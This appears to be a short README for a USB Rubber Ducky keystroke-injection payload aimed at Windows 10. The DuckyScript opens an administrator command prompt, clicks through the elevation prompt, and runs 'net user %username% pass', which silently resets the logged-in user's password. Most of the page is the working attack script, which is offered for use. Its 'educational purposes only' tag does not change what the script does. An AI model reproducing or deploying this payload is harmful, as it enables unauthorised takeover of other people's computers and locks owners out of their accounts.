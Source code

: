 # Payload
This very simple payload change current user's password to something you want in just 1,75 seconds !!
Here, password is set to "pass", you can change it. You can also change delay value if the targeted machine is slower

***
# Code

    REM Based on Admin CMD
    REM Target: Windows 10
    REM Set password to whatever you want, here 'pass' is the current user password after executing this
    DELAY 1000
    WINDOWS d
    DELAY 100
    WINDOWS
    DELAY 100
    STRING cmd
    DELAY 100
    CONTROL SHIFT
    ENTER
    DELAY 150
    LEFTARROW
    DELAY 150
    ENTER
    DELAY 150
    STRING net user %username% pass
    ALT F4
    REM done by zqrk with love, and for educational purposes only!